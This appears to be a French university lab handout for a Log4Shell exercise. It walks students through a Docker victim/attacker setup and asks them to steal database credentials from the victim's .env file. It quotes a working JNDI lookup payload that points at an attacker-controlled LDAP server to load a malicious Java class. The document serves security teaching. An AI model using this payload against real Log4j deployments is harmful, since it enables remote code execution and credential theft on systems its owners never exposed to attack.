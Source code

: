 # Sujet - TP Log4Shell 
### BERTRAND Timothé - BLANC Olivier - PAYS Antoine - GENIN Fabien
### A rendre pour le jeudi 10 février 2022 23H59


## Exercice

### **Objectif** : Récuperer le contenu de la BDD avec les informations présentes dans le fichier .env de la victime.


**Schéma explicatif rapide :** 

Vous êtes un attaquant et vous souhaitez accéder à une BDD, sauf que vous n'avez pas les informations pour vous connectez à la BDD. Ces informations se trouvent dans le fichier .env de la victime.
Il faut savoir que le développeur du serveur victime a choisi de logger les identifiants d'un utilisateur lors de l'envoi du formulaire.


## Configuration

Pour utiliser les commandes docker vous devrez vous connecter à VDN à l'IUT

Si vous utilisez les machines de l'iut, lancer `vdn docker-tmp`.
Start la machine root@debian-1
Dans la console de la VM root@debian-1, créer un répertoire "log4shell" 
Faire `cd log4shell` et ensuite `git clone https://github.com/Fabinhio25/TPLog4Shell`

Faire un `make all` pour créer tous les DockerFiles

Après avoir fait le make all, faire un `docker-compose up` dans le repertoire cloné.
Récupérer les IP de server et de victime dans la console quand docker-compose up est executé
Victim_1 | Running on IP : XXX.XXX  
Server_1 | Running on IP : XXX.XXX
L'IP server sera a mettre dans le lookup plus tard

Etapes à reproduire pour la réalisation du tp :

Créer un fichier java dans lequel le code devra récupérer et écrire le .env de la base de données dans les logs du serveur.
Appeler votre class java dans une requete faite au serveur, grace à un lookup vu en cours.

Exemple de lookup : "${jndi:ldap://ipserver:9999/WithReturn}"
    
Pour se connecter a la BDD : `mysql -u root -p ipadress`
    ipadress se trouve dans le .env
    
L'URL de la victime : ipvictime:8080/login


### Question : 
    
Le but est de se connecter sur le serveur de la victime en tant que administrateur. Utiliser le lookup vu en cours, afin d'appeler et d'exécuter la class (code malicieux). Pour écrire le contenu du fichier .env dans les logs, l'envoyer au loggeur du serveur afin de récupérer dans les logs du serveur. Grace à cette manipulation vous allez pouvoir récupérer l'identifiant et mot de passe de l'administrateur du serveur.

Vous trouverez des exemples du fichier java /TPLog4Shell/attacker/java/ :

Simple.java
WithReturn.java
